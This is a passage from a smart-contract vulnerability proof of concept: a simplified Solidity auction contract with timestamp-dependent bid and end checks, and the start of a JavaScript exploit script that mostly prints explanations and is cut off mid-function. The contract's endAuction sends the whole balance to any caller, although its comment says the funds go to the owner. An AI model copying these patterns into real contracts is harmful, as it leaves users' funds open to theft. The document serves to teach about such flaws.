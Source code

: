 #### Proof of Concept Exploit

##### Vulnerable Contract (Simplified)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableAuction {
    uint256 public auctionEndTime;
    uint256 public highestBid;
    address public highestBidder;
    bool public ended;
    
    constructor(uint256 _biddingTime) {
        auctionEndTime = block.timestamp + _biddingTime;
    }
    
    function bid() public payable {
        // VULNERABLE: Timestamp dependence
        require(block.timestamp <= auctionEndTime, "Auction ended");
        require(msg.value > highestBid, "Bid not high enough");
        
        if (highestBid != 0) {
            payable(highestBidder).transfer(highestBid);
        }
        
        highestBidder = msg.sender;
        highestBid = msg.value;
    }
    
    function endAuction() public {
        // VULNERABLE: Timestamp dependence
        require(block.timestamp >= auctionEndTime, "Auction not yet ended");
        require(!ended, "Auction already ended");
        ended = true;
        // Transfer funds to contract owner
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

##### Exploit Script (JavaScript with ethers.js)
```javascript
const { ethers } = require("ethers");

async function demonstrateTimestampExploit() {
    // This demonstrates how miners can manipulate timestamps
    
    // Scenario 1: Miner delaying timestamp to extend auction
    console.log("=== Timestamp Manipulation Scenario ===");
    console.log("Miner can manipulate block.timestamp within ~900 seconds");
    console.log("This allows extending time-sensitive operations");
    
    // Scenario 2: Early auction ending
    console.log("\n=== Early Ending Exploit ===");
    console.log("If auctionEndTime is calculated incorrectly:");
    
    // Example of vulnerable time calculation
    const vulnerableTimeCalculation = () => {
        // VULNERABLE: Using block.timestamp for critical timing
        const startTime = Math.floor(Date.now() / 1000);
        const endTime = startTime + 3600; // 1 hour auction
        
        // If miner manipulates timestamp, they can affect this logic
```